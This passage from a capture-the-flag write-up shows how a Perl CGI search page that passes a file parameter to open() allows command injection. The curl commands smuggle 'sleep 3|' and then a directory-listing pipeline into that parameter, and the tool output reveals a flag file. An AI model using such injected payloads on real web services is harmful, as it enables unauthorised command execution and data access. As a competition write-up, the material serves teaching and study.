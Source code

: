 Unfortunately, no flag here, but we can see something quite interesting: this is a GCI script, using Perl.

That almost immediately rang a bell: *what if this thing uses Perl `open()` ?*

That would be particularly 'handy' as that function can actually [execute programs](https://stackoverflow.com/questions/27084779/perl-code-pipe-in-open-statement).

```shell
❯ time curl -G 'https://aurora-web.h4ck.ctfcompetition.com/' \
    --data-urlencode 'file=hexdump.txt;sleep 3|' \
    --data-urlencode 'term=auro'

curl -G 'https://aurora-web.h4ck.ctfcompetition.com/' --data-urlencode     0.01s user 0.01s system 0% cpu 3.357 total
```

BINGO :)

How can we exploit this? Just by using some creativity… and, after few trial-error iterations:

```shell
❯ curl -s -G 'https://aurora-web.h4ck.ctfcompetition.com/' \
    --data-urlencode 'file=hexdump.txt;ls -l /|tr "\n" "\0"|xargs -0 -n1 echo "****"|' \
    --data-urlencode 'term=****'
**** total 56
**** lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 bin -> usr/bin
**** drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 boot
**** drwxr-xr-x   5 nobody nogroup  360 Oct 13 08:53 dev
**** drwxr-xr-x  47 nobody nogroup 4096 Aug 18 12:12 etc
**** -rw-r--r--   1 nobody nogroup   52 Aug 18 12:08 flag
**** drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 home
**** lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 lib -> usr/lib
**** lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib32 -> usr/lib32
**** lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib64 -> usr/lib64
**** lrwxrwxrwx   1 nobody nogroup   10 Jul 20  2020 libx32 -> usr/libx32
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 media
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 mnt
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 opt
**** dr-xr-xr-x 639 nobody nogroup    0 Oct 14 21:27 proc
**** drwx------   3 nobody nogroup 4096 Aug 18 12:12 root
**** drwxr-xr-x   8 nobody nogroup 4096 Aug 18 12:12 run
**** lrwxrwxrwx   1 nobody nogroup    8 Jul 20  2020 sbin -> usr/sbin
**** drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 srv
**** drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 sys
**** drwxrwxrwt   2 user   user      40 Oct 14 21:27 tmp
**** drwxr-xr-x  14 nobody nogroup 4096 Aug 18 12:12 usr
**** drwxr-xr-x  11 nobody nogroup 4096 Jul 20  2020 var
**** drwxr-xr-x   1 nobody nogroup 4096 Sep 30 09:00 web-apps
```

Note the 4 asterisks (`****`). These are only useful to make sure each line of the output is matched.

Here is our flag! We can retrieve either with a `cat /flag` or, since we know how it looks like, just by fully leverage the power of our search engine! 🤣
